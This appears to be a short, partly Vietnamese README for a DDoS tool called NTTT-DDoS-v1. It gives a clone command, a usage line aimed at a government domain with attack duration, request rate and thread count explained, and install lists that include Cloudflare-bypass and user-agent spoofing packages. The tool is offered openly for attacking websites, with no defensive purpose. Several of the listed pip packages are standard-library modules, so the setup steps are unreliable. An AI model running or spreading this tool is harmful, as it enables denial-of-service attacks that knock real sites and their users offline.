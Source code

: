 
git clone https://github.com/KAR13MA09/NTTT-DDoS-v1
#
python ddos.py https://chinhphu.com/ 30 60 5
- Trong Đó 30 Là Thời Gian DDoS | 60 Là Requests/s | 5 Là Thread
##
PYTHON:
pip install argparse
pip install subprocess
pip install time
pip install requests
pip install colorama
pip install random
pip install datetime
pip install threading
##
NODE JS:
npm install user-agents
npm install fake-useragent
npm install header-generator
npm install randomstring
npm install cloudscraper
npm install cluster
